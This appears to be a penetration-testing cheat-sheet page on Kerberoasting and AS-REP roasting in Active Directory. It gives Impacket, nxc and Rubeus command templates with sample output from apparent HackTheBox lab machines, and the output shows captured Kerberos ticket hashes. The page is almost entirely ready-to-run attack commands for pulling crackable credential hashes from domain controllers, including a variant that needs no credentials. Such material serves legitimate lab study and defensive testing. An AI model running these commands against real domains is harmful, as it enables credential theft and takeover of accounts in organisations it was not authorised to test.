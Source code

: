 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ impacket-GetNPUsers ABSOLUTE.HTB/ -usersfile valid_usernames.txt -no-pass -dc-ip DC.ABSOLUTE.HTB
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:85554d22d5c220d8a757ce9913d207ea$7288c91ca ---[SNIP]--- 0e09c5d9d1
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.181 ABSOLUTE.HTB/d.klay
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for d.klay
$krb5asrep$23$d.klay@ABSOLUTE.HTB:97c9a3ec7b550c29bc52f0c176738e73$ab25b07d4 ---[SNIP]--- 78a8e52bb6
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <DC> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

```console {class="sample-code"}
$ nxc ldap 10.10.11.181 -u valid_usernames.txt -p '' --asreproast as_rep_hashes.txt
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    445    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:5a082acfc8 ---[SNIP]--- 06ddb9be16
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# With Password
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC>
```

```console
# With Kerberos
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>' -no-pass -k -dc-host <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && impacket-GetUserSPNs -request 'scrm.local/ksimpson:ksimpson' -k -dc-host DC1.scrm.local
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$b62984d5b ---[SNIP]--- f4c2161493
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC> <DOMAIN>/
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && impacket-GetUserSPNs -no-preauth jjones -usersfile valid_usernames.txt -dc-host 10.10.11.231 rebound.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$d989a5d49 ---[SNIP]--- 962d2aa2f2
---[SNIP]---
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
sudo ntpdate -s <DC_IP> && nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && nxc ldap 10.10.11.168 -u ksimpson -p 'ksimpson' -k --kerberoasting kerberoast_hashes.txt
LDAP        10.10.11.168    389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       10.10.11.168    636    DC1.scrm.local   [+] scrm.local\ksimpson 
LDAPS       10.10.11.168    636    DC1.scrm.local   Bypassing disabled account krbtgt 
LDAPS       10.10.11.168    636    DC1.scrm.local   [*] Total of records returned 2
LDAPS       10.10.11.168    636    DC1.scrm.local   sAMAccountName: sqlsvc memberOf:  pwdLastSet: 2021-11-04 00:32:02.351452 lastLogon:2024-09-24 15:53:26.496449
LDAPS       10.10.11.168    636    DC1.scrm.local   $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$335aeba3b ---[SNIP]--- 9718487474
```

```console
# With socks5 proxy
proxychains4 -q nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt --dns-tcp --dns-server <DC_IP>
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}

